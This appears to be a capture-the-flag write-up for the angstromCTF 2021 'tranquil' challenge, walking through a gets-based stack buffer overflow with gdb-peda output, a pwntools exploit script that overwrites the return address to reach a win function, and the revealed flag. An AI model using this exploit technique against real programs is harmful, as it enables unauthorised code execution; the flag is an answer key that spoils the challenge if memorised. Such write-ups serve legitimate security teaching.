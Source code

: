 #### Challenge:

Finally, [inner peace](./tranquil ":ignore") - Master Oogway

[Source](./tranquil.c ":ignore")

Connect with `nc shell.actf.co 21830`, or find it on the shell server at `/problems/2021/tranquil`.

---

#### Solution:

Another buffer overflow caused by `gets` function called in `vuln` function. This time we need to overwrite the `vuln` function's return pointer to get to the `win` function that is `not` even called from `main`. So we need to figure out two things, what is the destination we want to jump to - that would be stack address of the `win` function, and where to put this information - that would be return address of the `vuln` function. 

Using [gdb-peda](https://github.com/longld/peda) *(Note to self: Installation of `gdb-peda` may require actual reinstallation of gdb - don't know why)*, the command `info functions` reveals the address of the `win` function: 

```text
...
0x0000000000401196  win
0x0000000000401204  vuln
0x0000000000401261  main
...
```

Next we use `pattc 200` command to generate `De Bruijn cyclic pattern`:

```
gdb-peda$ pattc 200
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
```

We feed the pattern to the binary to find out the offset of the return address.

```
gdb-peda$ run
Starting program: tranquil 
Enter the secret word: 
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA
Login failed!

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x0 
RBX: 0x0 
RCX: 0x7ffff7ed2f33 (<__GI___libc_write+19>:	cmp    rax,0xfffffffffffff000)
RDX: 0x0 
RSI: 0x7ffff7fa3723 --> 0xfa5670000000000a 
RDI: 0x7ffff7fa5670 --> 0x0 
RBP: 0x4141334141644141 ('AAdAA3AA')
RSP: 0x7fffffffdb08 ("IAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
RIP: 0x401260 (<vuln+92>:	ret)
R8 : 0xe 
R9 : 0x0 
R10: 0xfffffffffffff28d 
R11: 0x246 
R12: 0x4010b0 (<_start>:	endbr64)
R13: 0x0 
R14: 0x0 
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
...
```

From the crash output we see that the base pointer's (`RBP`) value is `AAdAA3AA`. We can use the value to get the offset in the pattern using `patto` command:

```
gdb-peda$ patto AAdAA3AA
AAdAA3AA found at offset: 64
```

So we need to fill the whole buffer (`64 bytes`), then overwrite the base pointer - `RBP` (`8 bytes`) and finally overwrite the return address with the address of the `win` function (`0x401196`):

```python
#!/usr/bin/env python

from pwn import *
from struct import *

for i in range(1, 2):
    print(i)

    #r = remote('shell.actf.co', 21830)
    r = process('./tranquil')

    print(r.recvuntil("Enter the secret word: ").decode('utf-8').strip())

    payload = b'A'*(64) + b'B'*8 + pack("<Q", 0x0000000000401196)

    print(payload)

    r.sendline(payload)

    print(r.recvline().decode('utf-8').strip())
    print(r.recvline().decode('utf-8').strip())
    print(r.recvline().decode('utf-8').strip())
    print(r.recvline().decode('utf-8').strip())
    r.close()
```

---

<details><summary>FLAG:</summary>

```text
actf{time_has_gone_so_fast_watching_the_leaves_fall_from_our_instruction_pointer_864f647975d259d7a5bee6e1}
```

</details>
<br/>
